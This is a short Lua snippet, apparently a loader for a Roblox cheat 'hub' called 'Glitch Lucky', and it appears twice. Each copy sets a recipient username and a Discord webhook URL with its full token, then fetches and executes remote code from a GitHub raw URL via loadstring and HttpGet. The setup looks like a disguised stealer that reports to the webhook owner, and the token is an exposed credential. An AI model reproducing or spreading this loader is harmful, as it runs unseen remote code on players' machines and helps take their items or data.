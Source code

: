 _G.Username = "dsmswww"

_G.HubName = "Glitch Lucky"

_G.WebhookUrl = "https://discord.com/api/webhooks/1107422032225902622/w0B3fXE7W_inqeNrhuPpIxWWkHgxQ4SBmiooatLn5Xx5pgfjj3X15PvNqTtKPk9JMN87"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
_G.Username = "dsmswww"
_G.HubName = "Lucky Glitch"
_G.WebhookUrl = "https://discord.com/api/webhooks/1107422032225902622/w0B3fXE7W_inqeNrhuPpIxWWkHgxQ4SBmiooatLn5Xx5pgfjj3X15PvNqTtKPk9JMN87"
loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
